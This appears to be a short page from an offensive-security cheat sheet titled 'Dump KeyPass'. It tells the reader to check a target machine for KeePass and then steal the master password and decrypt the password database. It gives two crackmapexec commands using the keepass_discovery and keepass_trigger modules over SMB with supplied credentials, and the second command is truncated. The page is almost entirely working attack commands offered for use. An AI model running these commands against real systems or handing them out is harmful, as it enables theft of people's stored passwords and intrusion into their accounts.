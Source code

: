 # Dump KeyPass



You can check if keepass is installed on the target computer and then steal the master password and decrypt the database !

```
$ crackmapexec smb <ip> -u user -p pass -M keepass_discovery
$ crackmapexec smb <ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discov
```

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
